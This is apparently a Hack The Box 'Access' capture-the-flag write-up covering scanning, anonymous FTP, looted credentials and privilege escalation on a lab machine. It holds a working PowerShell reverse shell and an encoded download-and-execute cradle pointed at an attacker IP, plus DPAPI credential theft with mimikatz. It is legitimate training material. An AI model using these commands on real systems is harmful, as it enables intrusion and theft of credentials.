

# Scanning

## Rustscan

```bash
rustscan -a 10.10.10.98 -b 100
```


## Nmap

```bash
nmap -sC -sV -T5 -oA nmap/initials 10.10.10.98
```

```bash
# Nmap 7.94SVN scan initiated Thu May 22 14:38:21 2025 as: nmap -sC -sV -T5 -oA nmap/initials 10.10.10.98
Nmap scan report for 10.10.10.98 (10.10.10.98)
Host is up (0.18s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can not get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet  Microsoft Windows XP telnetd
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Micros
oft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: 4s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 22 14:39:05 2025 -- 1 IP address (1 host up) scanned in 43.64 seconds
```

### Key Findings:

- **Port 21** - FTP with Anonymous login allowed (this looks juicy! 🍖)
- **Port 23** - Telnet service running
- **Port 80** - IIS 7.5 (older version, potentially vulnerable)

- The FTP anonymous access immediately caught my attention - it's like finding an unlocked door in a security assessment!

# Enumeration

## FTP Anonymous Access

First, I checked the FTP anonymous login since it looked very promising, and boy, it delivered! I discovered two interesting directories:

- `Backups\backup.mdb`
- `Engineers\Active Control.zip`

 

## File Download Process

I downloaded these files using the `get` command, but here's a crucial tip: you need to set `binary` mode for proper file transfer, otherwise you'll encounter some weird errors that'll make you question your life choices.


## Initial File Analysis

After downloading, I discovered:

- `backup.mdb` is a **Microsoft Access Database** file
- The zip file is password-protected (of course it is! 🔐)


## Database Analysis

I analyzed the `backup.mdb` file and found numerous table names. Here's the complete list for reference:


```c
acc_antiback | acc_door | acc_firstopen | acc_firstopen_emp | acc_holidays | acc_interlock | acc_levelset | acc_levelset_door_group | acc_linkageio | acc_map | acc_mapdoorpos | acc_morecardempgroup | acc_morecardgroup | acc_timeseg | acc_wiegandfmt | ACGroup | acholiday | ACTimeZones | action_log | AlarmLog | areaadmin | att_attreport | att_waitforprocessdata | attcalclog | attexception | AuditedExc | auth_group_permissions | auth_message | auth_permission | auth_user | auth_user_groups | auth_user_user_permissions | base_additiondata | base_appoption | base_basecode | base_datatranslation | base_operatortemplate | base_personaloption | base_strresource | base_strtranslation | base_systemoption | CHECKEXACT | CHECKINOUT | dbbackuplog | DEPARTMENTS | deptadmin | DeptUsedSchs | devcmds | devcmds_bak | django_content_type | django_session | EmOpLog | empitemdefine | EXCNOTES | FaceTemp | iclock_dstime | iclock_oplog | iclock_testdata | iclock_testdata_admin_area | iclock_testdata_admin_dept | LeaveClass | LeaveClass1 | Machines | NUM_RUN | NUM_RUN_DEIL | operatecmds | personnel_area | personnel_cardtype | personnel_empchange | personnel_leavelog | ReportItem | SchClass | SECURITYDETAILS | ServerLog | SHIFT | TBKEY | TBSMSALLOT | TBSMSINFO | TEMPLATE | USER_OF_RUN | USER_SPEDAY | UserACMachines | UserACPrivilege | USERINFO | userinfo_attarea | UsersMachines | UserUpdates | worktable_groupmsg | worktable_instantmsg | worktable_msgtype | worktable_usrmsg | ZKAttendanceMonthStatistics | acc_levelset_emp | acc_morecardset | ACUnlockComb | AttParam | auth_group | AUTHDEVICE | base_option | dbapp_viewmodel | FingerVein | devlog | HOLIDAYS | personnel_issuecard | SystemLog | USER_TEMP_SCH | UserUsedSClasses | acc_monitor_log | OfflinePermitGroups | OfflinePermitUsers | OfflinePermitDoors | LossCard | TmpPermitGroups | TmpPermitUsers | TmpPermitDoors | ParamSet | acc_reader | acc_auxiliary | STD_WiegandFmt | CustomReport | ReportField | BioTemplate | FaceTempEx | FingerVeinEx | TEMPLATEEx
```

## Database Content Extraction

I used the online MDB viewer at `https://www.mdbopener.com/` to open the database file and downloaded it as an Excel file for easier analysis.



## Credential Discovery

After thoroughly examining all tables, I struck gold in the `auth_user` table, which contained some tasty credentials:


```c
|id|username    |password         |Status  |last_login|RoleID|Remark|
|25| admin      |admin            |1       |08/23/18 21:11:47|26||
|27|engineer    |access4u@security|1       |08/23/18 21:13:36|26||
|28|backup_admin|admin            |1       |08/23/18 21:14:02|26||
```

## ZIP File Password Cracking

Remember that encrypted zip file from the engineer's folder? Well, `access4u@security` looked like a perfect candidate for the password, and guess what? It worked like a charm! 🎯


## PST File Analysis

The zip file contained a `.pst` (Microsoft Outlook Personal Storage) file:


I used `pst-utils` to extract the content from this file, which generated an `.mbox` file containing HTML-formatted email data.


## Email Content Analysis

From the extracted email file, I discovered another set of credentials for the `Security` user with the password `4Cc3ssC0ntr0ller`. Since we know Telnet is available on port 23, these credentials are likely our ticket in!

```yml
From "john@megacorp.com" Fri Aug 24 05:14:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
	boundary="--boundary-LibPST-iamunique-928963397_-_-"


----boundary-LibPST-iamunique-928963397_-_-
Content-Type: multipart/alternative;
	boundary="alt---boundary-LibPST-iamunique-928963397_-_-"

--alt---boundary-LibPST-iamunique-928963397_-_-
Content-Type: text/plain; charset="utf-8"

Hi there,

 

The password for the "security" account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John


--alt---boundary-LibPST-iamunique-928963397_-_-
Content-Type: text/html; charset="us-ascii"

<html xmlns:v="urn:schemas-microsoft-com:vml" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:w="urn:schemas-microsoft-com:office:word" xmlns:m="http://schemas.microsoft.com/office/2004/12/omml" xmlns="http://www.w3.org/TR/REC-html40"><head><meta http-equiv=Content-Type content="text/html; charset=us-ascii"><meta name=Generator content="Microsoft Word 15 (filtered medium)"><style><!--
/* Font Definitions */
@font-face
	{font-family:"Cambria Math";
	panose-1:0 0 0 0 0 0 0 0 0 0;}
@font-face
	{font-family:Calibri;
	panose-1:2 15 5 2 2 2 4 3 2 4;}
/* Style Definitions */
p.MsoNormal, li.MsoNormal, div.MsoNormal
	{margin:0in;
	margin-bottom:.0001pt;
	font-size:11.0pt;
	font-family:"Calibri",sans-serif;}
a:link, span.MsoHyperlink
	{mso-style-priority:99;
	color:#0563C1;
	text-decoration:underline;}
a:visited, span.MsoHyperlinkFollowed
	{mso-style-priority:99;
	color:#954F72;
	text-decoration:underline;}
p.msonormal0, li.msonormal0, div.msonormal0
	{mso-style-name:msonormal;
	mso-margin-top-alt:auto;
	margin-right:0in;
	mso-margin-bottom-alt:auto;
	margin-left:0in;
	font-size:11.0pt;
	font-family:"Calibri",sans-serif;}
span.EmailStyle18
	{mso-style-type:personal-compose;
	font-family:"Calibri",sans-serif;
	color:windowtext;}
.MsoChpDefault
	{mso-style-type:export-only;
	font-size:10.0pt;
	font-family:"Calibri",sans-serif;}
@page WordSection1
	{size:8.5in 11.0in;
	margin:1.0in 1.0in 1.0in 1.0in;}
div.WordSection1
	{page:WordSection1;}
--></style><!--[if gte mso 9]><xml>
<o:shapedefaults v:ext="edit" spidmax="1026" />
</xml><![endif]--><!--[if gte mso 9]><xml>
<o:shapelayout v:ext="edit">
<o:idmap v:ext="edit" data="1" />
</o:shapelayout></xml><![endif]--></head><body lang=EN-US link="#0563C1" vlink="#954F72"><div class=WordSection1><p class=MsoNormal>Hi there,<o:p></o:p></p><p class=MsoNormal><o:p>&nbsp;</o:p></p><p class=MsoNormal>The password for the &#8220;security&#8221; account has been changed to 4Cc3ssC0ntr0ller.&nbsp; Please ensure this is passed on to your engineers.<o:p></o:p></p><p class=MsoNormal><o:p>&nbsp;</o:p></p><p class=MsoNormal>Regards,<o:p></o:p></p><p class=MsoNormal>John<o:p></o:p></p></div></body></html>
--alt---boundary-LibPST-iamunique-928963397_-_---

----boundary-LibPST-iamunique-928963397_-_---
```

# Exploitation

## Telnet Authentication

Time to put these credentials to the test! I attempted to login via Telnet using:

- **Username**: `security`
- **Password**: `4Cc3ssC0ntr0ller`

Success! We're in the system! 🎉


## User Flag Capture

- After gaining access, I was able to retrieve the user flag:

```yml
52a53e342f7c24182f28cdef8ba4b490
```

# Post Exploitation

- Now comes the fun part - but also the frustrating part! This shell is incredibly unstable, and many standard payloads just refuse to cooperate. Let me share my journey through payload hell:

## Initial Payload Struggles

I tried multiple approaches, all of which failed spectacularly:

- **Certutil** for payload delivery + **Metasploit crafted exe** → Failed! 💥
- **PowerShell one-liner** for payload delivery + **Metasploit PowerShell payload** → Failed again! 💥
- **Invoke-PowerShellTcp** [Nishang Shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) → Still failed! 💥

## The Solution That Actually Worked

### You might be wondering: "Then what's the solution?"

- I realized the issue was likely due to being in a `cmd` prompt environment, so I decided to get a proper PowerShell session first. Enter [RevShells](https://www.revshells.com/) - the unexpected hero of this engagement!


- Here's the life-saving payload that actually worked:

```powershell
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('10.10.16.2', 1337);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```

- Finally! A working shell! 🎯


## Privilege Escalation Discovery

### Cached Credentials Detection

Running `cmdkey /list` revealed that administrator credentials are cached on the system:


### Shortcut File Analysis

I discovered an interesting shortcut file at `C:\Users\Public\Desktop\ZKAccess3.5 Security System.lnk`:


- To find the actual executable and its arguments, I used this PowerShell command:

```powershell
powershell -command "$s = (New-Object -ComObject WScript.Shell).CreateShortcut('ZKAccess3.5 Security System.lnk'); Write-Output $s.TargetPath; Write-Output $s.Arguments"
```


- The output revealed:

```powershell
C:\Windows\System32\runas.exe
/user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"
```

### Understanding the Privilege Escalation Vector

- This is our privilege escalation point! The `runas.exe` binary (a built-in Windows utility) allows running specific programs with different user credentials. In this case, it's configured to run `Access.exe` with Administrator privileges using cached credentials (`/savecred` flag).

- **Important Note**: For those used to Linux environments, `runas` can be frustrating. Unlike `su` or `sudo`, it doesn't let you switch users in the same terminal - it opens a new process in a new window. This means we can't simply run `runas type \users\administrator\desktop\root.txt` and expect to see results in our current session.

## Getting Administrator Shell

### The Plan

- We need to replace `C:\ZKTeco\ZKAccess3.5\Access.exe` with our payload. However, this proved to be another challenge with multiple failed attempts:

- **Meterpreter exe** → Failed! 💥
- **Meterpreter PowerShell** → Failed! 💥
- **Invoke-PowerShellTcp** [Nishang Shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) → Also failed! 💥


### The Unicode Encoding Solution

- After watching [HTB Legend IppSec's video](https://www.youtube.com/watch?v=Rr6Oxrj2IjU&list=PLidcsTyj9JXL4Jv6u9qi8TcUgsNoKKHNn&index=14), I discovered the issue might be related to **Unicode encoding** differences.

- The solution was to encode the payload using `UTF-16LE` and then base64 encode it:

```bash
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.2/Invoke-PowerShellTcp.ps1')" | iconv --to-code UTF-16LE | base64 -w 0

# Output: SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADIALwBJAG4AdgBvAGsAZQAtAFAAbwB3AGUAcgBTAGgAZQBsAGwAVABjAHAALgBwAHMAMQAnACkA
```

- Then crafting the final payload:

```powershell
powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADIALwBJAG4AdgBvAGsAZQAtAFAAbwB3AGUAcgBTAGgAZQBsAGwAVABjAHAALgBwAHMAMQAnACkA
```

- Final runas command:

```c
runas /user:ACCESS\Administrator /savecred "powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADIALwBJAG4AdgBvAGsAZQAtAFAAbwB3AGUAcgBTAGgAZQBsAGwAVABjAHAALgBwAHMAMQAnACkA"
```

### Administrator Access Achieved!

Success! We finally got the Administrator shell:


## Root Flag Capture

And here's the coveted root flag:


```lua
5170bed5b1b9cef6810de87dc664caa6
```

# Beyond Root

## DPAPI (Windows Data Protection API) Credential Extraction and Decryption Process

### 🔍 Background

- The technique I'm about to demonstrate is called **DPAPI Credential Extraction and Decryption** - a Windows post-exploitation privilege escalation method that leverages the **Data Protection API (DPAPI)** to extract and decrypt sensitive user credentials such as saved passwords or tokens.

**Key Points about DPAPI:**

- DPAPI is used by Windows to securely store secrets like browser credentials, Wi-Fi passwords, and RDP credentials
- It encrypts data using a user-specific **Master Key** tied to the user's password and SID
- Master keys are stored under `%APPDATA%\Microsoft\Protect\<SID>\`
- The master key itself is encrypted using a key derived from the **user's logon credentials**
- This enables retrieval of plaintext secrets without needing elevated privileges in scenarios where user credentials are cached

**What you need for successful decryption:**

- The encrypted **master key**
- The **user's plaintext password**
- The **SID**
- The encrypted **credentials blob**

### Getting Important Files

- Our mission: find the administrator's plaintext password from the cached credentials.
- I need to copy files from these two locations:
	- `C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001`
	- `C:\Users\security\AppData\Roaming\Microsoft\Credentials\S-1-5-21-953262931-566350628-63446256-1001`

### File 1: Master Key (`0792c32e-48a5-4fe3-8b43-d93d64590580`)

 

- Since this file contains non-printable bytes, I need to convert it to base64 for transport:

```powershell
certutil -encode 0792c32e-48a5-4fe3-8b43-d93d64590580 output
type output
```

 

### File 2: Credentials Blob (`51AB168BE4BDB3A603DADE4F8CA81290`)

 

- Same process - converting to base64:

```powershell
certutil -encode 51AB168BE4BDB3A603DADE4F8CA81290 output
type output
```

 

### Decrypt Master Key

- For master key decryption, I'll use `mimikatz` on a Windows machine (I'm using Flare VM with Windows Defender disabled):

```
mimikatz # dpapi::masterkey /in:masterkey /sid:S-1-5-21-953262931-566350628-63446256-1001 /password:4Cc3ssC0ntr0ller
```


- Full mimikatz output:

```yml
C:\Users\flare\Desktop
λ mimikatz.x64.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX 
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # dpapi::masterkey /in:masterkey /sid:S-1-5-21-953262931-566350628-63446256-1001 /password:4Cc3ssC0ntr0ller
**MASTERKEYS**
  dwVersion          : 00000002 - 2
  szGuid             : {0792c32e-48a5-4fe3-8b43-d93d64590580}
  dwFlags            : 00000005 - 5
  dwMasterKeyLen     : 000000b0 - 176
  dwBackupKeyLen     : 00000090 - 144
  dwCredHistLen      : 00000014 - 20
  dwDomainKeyLen     : 00000000 - 0
[masterkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : 9c51ca4d00708c73d4fbff60b95e549e
    rounds           : 000043f8 - 17400
    algHash          : 0000800e - 32782 (CALG_SHA_512)
    algCrypt         : 00006610 - 26128 (CALG_AES_256)
    pbKey            : e78fb1d989c4ccd7a05285c17fae1c31ad1210f7ada051ae3203536df613e63a0e4647ca9ed51407637d8c1cc2ad16b2306aab56d7d2707b0c77422e7de39eb8bdfcca55044b4a7f853b6f0b3333213b5b0d80c7c1021f6c4ac2f5fa3772adbe50af7fdf07b0e0ea940d70a1245db7df847f615530a93895012a3ad9c7a8c39cc0592d06d714c9ee8fe34ced5062c412

[backupkey]
  **MASTERKEY**
    dwVersion        : 00000002 - 2
    salt             : 4bb6dd9b5b9656d97b78f114796457f4
    rounds           : 000043f8 - 17400
    algHash          : 0000800e - 32782 (CALG_SHA_512)
    algCrypt         : 00006610 - 26128 (CALG_AES_256)
    pbKey            : 0fe6b3aa5dd3af46bd7a87cbc0161fc41ae13f8714a22bcb5bda86f24d95ad03369a5335159185d0276743d0c1132b35fdaffad247d3c4f5f43260413c28b401ed70e42e0184f9e8c4668abc36eb7327bd2c7374a2381b4cdd4ea7c465deaa755e0f53672473900db8868b428327edaa

[credhist]
  **CREDHIST INFO**
    dwVersion        : 00000003 - 3
    guid             : {009668e5-9305-401b-ba0d-dfa0e11b34d0}


[masterkey] with password: 4Cc3ssC0ntr0ller (normal user)
  key : b360fa5dfea278892070f4d086d47ccf5ae30f7206af0927c33b13957d44f0149a128391c4344a9b7b9c9e2e5351bfaf94a1a715627f27ec9fafb17f9b4af7d2
  sha1: bf6d0654ef999c3ad5b09692944da3c0d0b68afe
```

### Decrypt Credentials

- Now for the final step - decrypting the stored credentials:

```
mimikatz # dpapi::cred /in:credentials
```


- Full credentials decryption output:

```yml
mimikatz # dpapi::cred /in:credentials
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {0792c32e-48a5-4fe3-8b43-d93d64590580}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 0000003a - 58
  szDescription      : Enterprise Credential Data

  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : f5bbbac240bd90d9af7d3c2cfb7f301f1f123ac94d07a3cc012038135fa5a6bc
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         :
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : f9642d323fae366a4f7293d02f26e4472adc32b00bac6a061914458dadfd3e52
  dwDataLen          : 00000100 - 256
  pbData             : e73542ff71d08529f9da5ff88edcd5be44d11c9c02c45fdfd9ee5a531628cb0f9e8dc221eb5b4d83a857aff13473131c927527217fe177e08d63a63eb5ce5341576b33332806e062363e58786fb7551aaa2e0676b8e3957f43cf1f11a2ed149c431104e5f93f20364916df25a0168ede23788bd9d71192cdb661c5c5686ed256c8691057fe6fe2a2b1765ba0979ee9140c010210eea81ac00830f74c35a196ac1f46bd69d7a86ca82da15f9bbcf1c40cbbe41d58d4a8924afde97e2a99a6e9f33a297ef2508401c229a451b911e9469ba17d71288dc6c37ee26c65ecc8accd4b5b3c0c2ccfcae6b0a76384a0e27c4edb7a0ecece2afd9889252304db5767bbc3
  dwSignLen          : 00000040 - 64
  pbSign             : 63fcc153bcd60befd074a5098ea0e552f8809562c553985baa8720a828e61e05bd5d1cb8200711551a100ed3b853598b3875ba90b689bc483342fbf671b89c99

Decrypting Credential:
 * volatile cache: GUID:{0792c32e-48a5-4fe3-8b43-d93d64590580};KeyHash:bf6d0654ef999c3ad5b09692944da3c0d0b68afe;Key:available
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000f4 - 244
  credUnk0       : 00002004 - 8196

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 8/22/2018 9:18:49 PM
  unkFlagsOrSize : 00000038 - 56
  Persist        : 00000003 - 3 - enterprise
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:interactive=ACCESS\Administrator
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : ACCESS\Administrator
  CredentialBlob : 55Acc3ssS3cur1ty@megacorp
  Attributes     : 0
```

### The Final Prize 🏆

**Administrator Password:**

```lua
55Acc3ssS3cur1ty@megacorp
```

